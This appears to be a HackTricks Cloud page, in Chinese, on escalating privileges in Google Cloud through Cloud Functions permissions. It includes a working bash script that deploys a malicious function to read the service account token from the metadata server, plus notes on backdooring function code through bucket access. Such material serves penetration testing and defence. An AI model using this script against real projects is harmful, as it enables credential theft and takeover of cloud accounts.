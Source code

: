 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudfunctions

有关 Cloud Functions 的更多信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以 **创建一个带有任意（恶意）代码的新 Cloud Function，并将其分配给一个服务账户**。然后，从元数据中泄露服务账户令牌以提升权限。\
可能需要一些权限来触发该函数。

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) 和 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) 找到，预构建的 .zip 文件可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) 找到。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以 **修改函数的代码，甚至修改附加的服务账户**，以提取令牌。

{% hint style="danger" %}
为了部署云函数，您还需要对默认计算服务账户或用于构建映像的服务账户具有 actAs 权限。
{% endhint %}

可能需要一些额外的权限，例如版本 1 cloudfunctions 的 `.call` 权限或角色 `role/run.invoker` 来触发该函数。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
如果您收到错误 `Permission 'run.services.setIamPolicy' denied on resource...`，这意味着您正在使用 `--allow-unauthenticated` 参数，并且您没有足够的权限。
{% endhint %}

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) 找到。

### `cloudfunctions.functions.sourceCodeSet`

通过此权限，您可以获取一个**签名的 URL，以便能够将文件上传到函数存储桶（但函数的代码不会被更改，您仍然需要更新它）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

从攻击者的角度来看，仅有这个权限的实用性不太确定，但知道这一点是好的。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

给自己任何之前的 **`.update`** 或 **`.create`** 权限以进行升级。

### `cloudfunctions.functions.update`

仅拥有 **`cloudfunctions`** 权限，而没有 **`iam.serviceAccounts.actAs`**，你 **将无法更新函数，因此这不是一个有效的权限提升。**

### 对存储桶的读写访问

如果你对存储桶有读写访问权限，你可以监控代码的变化，并且每当 **存储桶中发生更新时，你可以用自己的代码更新新代码**，这样新版本的 Cloud Function 将运行提交的后门代码。

你可以在以下链接中查看更多关于攻击的信息：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

然而，你不能用这个来预先攻陷第三方 Cloud Functions，因为如果你在你的账户中创建存储桶并给予公共权限以便外部项目可以写入，你会收到以下错误：

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
然而，这可以用于 DoS 攻击。
{% endhint %}

### 对 Artifact Registry 的读写访问

当创建 Cloud Function 时，一个新的 docker 镜像会被推送到项目的 Artifact Registry。我尝试用一个新的镜像修改当前镜像，甚至删除当前镜像（和 `cache` 镜像），但没有任何变化，cloud function 继续工作。因此，也许 **可能会利用竞争条件攻击**，像对存储桶那样更改将要运行的 docker 容器，但 **仅仅修改存储的镜像并不能攻陷 Cloud Function**。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
